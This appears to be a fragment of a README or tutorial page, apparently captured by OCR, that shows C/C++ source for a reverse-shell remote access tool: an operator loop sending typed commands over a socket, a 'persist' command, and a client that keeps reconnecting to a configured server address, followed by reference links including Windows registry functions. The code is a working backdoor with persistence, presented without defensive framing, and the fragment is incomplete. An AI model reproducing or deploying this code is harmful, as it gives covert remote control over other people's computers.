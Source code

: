 ```cpp
	bzero(&response, sizeof(response));
	printf("* Shell#%s~$: ", inet_ntoa(client_address.sin_addr));
	fgets(buffer, sizeof(buffer), stdin);
	strtok(buffer, "\n"); 
	write(client_socket, buffer, sizeof(buffer));
	if (strncmp("q", buffer, 1) == 0) {
		break;
		}
	else if (strncmp("persist",buffer,7) ==0 ) { 
		recv(client_socket, response, sizeof(response), 0);
		printf("%S", response);
		}
	else {
		recv(client_socket, response, sizeof(response), MSG_WAITALL);
		printf("%S", response);
		}
}

sock = socket(AF_INET, SOCK_STREAM, 0);
memset(&servaddr, 0, sizeof(servaddr));
servaddr.sin_family = AF_INET;
servaddr.sin_addr.s_addr = inet_addr(servip);
servaddr.sin_port = htons(servport);
start:
while (connect(sock, (struct sockaddr *) &servaddr, sizeof(servaddr)) != 0) { 
	Sleep(10);
	MessageBox(NULL, L"no connect", L"connect", MB_OK);
	goto start;
	}
Shell();

```

## Reference

1. [https://dangerlover9403.pixnet.net/blog/post/212391408-[教學]c++-socket資料整理](https://dangerlover9403.pixnet.net/blog/post/212391408-%5B%E6%95%99%E5%AD%B8%5Dc++-socket%E8%B3%87%E6%96%99%E6%95%B4%E7%90%86)
2. [https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s](https://www.youtube.com/watch?v=6Dc8i1NQhCM&t=4973s)
3. [https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions](https://docs.microsoft.com/en-us/windows/win32/sysinfo/registry-functions)
